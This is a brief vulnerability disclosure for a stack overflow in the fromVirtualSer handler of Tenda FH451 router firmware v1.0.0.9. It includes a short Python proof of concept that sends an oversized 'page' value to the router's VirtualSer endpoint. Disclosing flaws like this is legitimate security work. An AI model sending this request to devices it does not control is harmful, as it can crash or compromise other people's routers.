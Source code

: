 # Tenda FH451 fromVirtualSer
### Overview
vendor: Tenda

product: FH451

version: v1.0.0.9

type: Stack Overflow
### Vulnerability Description
Tenda FH451 v1.0.0.9 were discovered to contain a stack overflow via the page parameter in the fromVirtualSer function.

### Vulnerability details
In function fromVirtualSer line 14, it reads in a user-provided parameter `page`. The variable `v6` is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/8.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/VirtualSer"

data = {
    "page": "a" * 1000
}

response = requests.post(url, data=data)
print(response.text)
```